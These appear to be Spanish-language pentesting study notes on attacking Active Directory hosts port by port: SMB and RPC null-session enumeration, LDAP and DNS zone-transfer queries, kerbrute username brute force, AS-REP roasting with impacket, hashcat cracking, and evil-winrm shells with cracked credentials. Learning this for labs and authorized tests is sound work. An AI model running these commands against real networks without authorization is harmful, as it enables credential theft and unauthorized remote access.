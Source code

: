 ![[Pasted image 20230219172405.png]]

---

- ### Enumerar puerto 445 (default) ( #SMB ) 

```shell
crackmapexec smb {taget_ip}
# Obtener información de la maquina victima, esto puede devolvernos el nombre de la maquina, dominios, version de windows, etc (Dominios al /etc/hosts)
crackmapexec smb {target_ip0} --shares
# Intentar enumerar recursos compartidos a nivel de red
smbmap -H {target_ip} -u "null"
# Otra alternativa para intentar enumerar recursos compartidos a nivel de red y como no tenemos credenciales especificando -u "null" o no poniendo esto estamos intentando hacerlo con una null sesion.
smbclient -L {target_ip} -N
# Otra alternatica para de nuevo intentar enumerar recursos compartidos a nivel de red, -N (Null sesion)
```

- ### Puerto 135 (default) ( msrpc / #RPC )

```shell
rpcclient -U "" {target_ip} -N
# Si nos devuelve "rpcclient $>" podriamos intentar enumerar usuarios (enumdomusers) del DA para intentar realizar ataques como "AS-REP Roast" 
```
**Descripción:** Un ataque AS-REP Roast es un tipo de ataque de seguridad informático contra el protocolo Kerberos. Este ataque se acontece cuando uno de los Usuarios del Dominio tiene seteado el Atributo **UF_DONT_REQ_PREAUTH** lo que le permite solicitar un TGT a Kerberos (KDC) sin necesidad de proporcionar contraseña. En este mismo TGT se encuentra el Hash NTLMv2 del usuario en cuestion, que luego podriamos intentar crackear con fuerza bruta para obtener la contraseña del usuario.

- ### Puerto 389 (default) ( #LDAP ) 

```shell
ldapsearch -H "ldap://{target_ip}" -x -s base namingcontexts
# Enumerar servicio ldap, en este caso, namingcontexts
ldapsearch -H "ldap://{target_ip}" -x -b {naming_context}
# Enuimerar el servicio ldap
#################################################################################
namp -n -sV --script "ldap* and not brute" -p 389 {target_ip}
# Manera alternatica de enumerar el servicio ldap

```

- ##### Más enumeración de LDAP con ldap search en 
##### https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

- ### Puerto 88 (default) ( #KERBEROS )

###### Existen herramientas como kerbrute https://github.com/ropnop/kerbrute las cuales nos permiten hacer fuerza bruta hacia kerberos 
- ##### Flujo de interno de #Kerberos [[Kerberos_Authentication_Flow.canvas]]

##### Esto siempre puede ser enlazado con las enumeraciones anteriores, por ejemplo si al enumerar el #ldap vemos que se enumera un namingcontext que puede ser de un usuario como "Owen Bonoris" podriamos pensar de que este sea un usuario valido y comenzar a ingresar combinaciones posibles como usuario:

- owen.bonoris
- owenb
- bowen
- bonoris.o
- obonoris
- o.bonoris
- owen.b
- b.owen

##### etc.  Estas convinaciones podrian ser guardadas en un archivo, por ejemplo users.txt y de esta menera haciendo uso de kerbrute realizar fuerza burta

```shell
kerbrute userenum --dc {target_ip} -d {domain_name} users.txt
# Fuerza bruta al domain de nuestra maquina victima intentando enumerar usuarios validos de ldomain en base a una wordlists de usuarios
impacket-GetNPUsers {domain_name}/ -no-pass -usersfile users.txt
# Esto es para con unos ciertos usuarios probar conseguir el hash NetNTLMv2 pero tambien podria ser usado para fuerza bruta ya que devolveria en caso de conseguir un usuario existente un output diferente.
# Si el usuario no exsite [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database), si el usuario existe [-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set

```

##### Una vez que tuvieramos usuarios tambien podriamos pensar en un *AS-REP Roast Attack*  pero como kerbrute ya lo hace de manera interna, si no vemos en el output un hash quiere decir que el usuario no tiene configurado el *UF_DONT_REQUIRE_PREAUTH*, por lo que no podemos obtener el hash NetNTLMv2.

##### En caso de tener un hash, podriamos usar la herramienta "hashcat" para intentar romper el hash, para esto es importante saber el modo del hash al que nos enfrentamos, por ejemplo, si el hash que capturaramos fuede `$krb5asrep$23$user@domain.com:378sh129fsdf8sdf7...`  podriamos buscar con el comando hashcat --example-hashes y filtradon por el "krb5asrep" (`hashcat --example-hashes | grep -B 11 "krb5asrep"`) para poder conseguir asi el modo que sera utilizado posteriormente con la herramienta "hashcat"
#### `hashcat -m {hash_mode} -a {attack_mode} hash rockyou.txt`
##### Para obtener el hash mode, `hashcat --example-hashes` 

###### En caso de lograr crackear el hash NetNTLMv2, indicaria que podriamos tener credenciales validas, esto lo podemos corroborar con la herramienta "crackmapexec": 
##### (`crackmapexec smb {target_ip} -u {username} -p {password}`)
##### De esta manera, en caso de obtener un "[+]" indicaria de que las mismas son validas, aunque para poder obtener una shell interactiva buscamos que al usuario le aparezca un "Pwn3d!" para poder usar xexec y intentar ganar acceso al sistema, en caso de que no, podriamos en caso de tener el puerto 5985 ( #SSDP / #UPnP) (Servicio de administración remota de windows)
##### De manera que podriamos verificar si el usuario en cuestion pertenece al grupo "Remote Managment Users" los cuales pueden conectarse de manera remota:
##### (`crackmapexec winrm {target_ip} -u {username} -p {password}`)
##### En caso de obtener el glorioso "Pwn3d!", podriamos con herramientas como "evil-winrm",  entablar una consola remota.
##### `evil-winrm -i {target_ip} -u {username} -p {password}`

- ### Puerto 53 (default) ( #Domain )

##### Podriamos emitirs solicitudes DNS para ver si podemos aplicar un DNS zone transfer (AXFR) con la herramienta dig

```shell
dig @{target_ip} {domain_name} ns
# Emitir solicitudes para enumerar Name Servers
dig @{target_ip} {domain_name} mx 
# Emitir solicitudes para enumerar servidores de correo
dig @{target_ip} {domain_name} axfr
# Probar un DNS Zone Trasfer
```

- ### Puerto 5985 (default)

##### Puerto que suele correr el Servicio de administración remota de windows, el cual al estar activo, podria permitirnos posteriormente intentar con utilidades como crackmapexec, ver si un usuario con credenciales pertenece al grupo "Rmote Managament Users".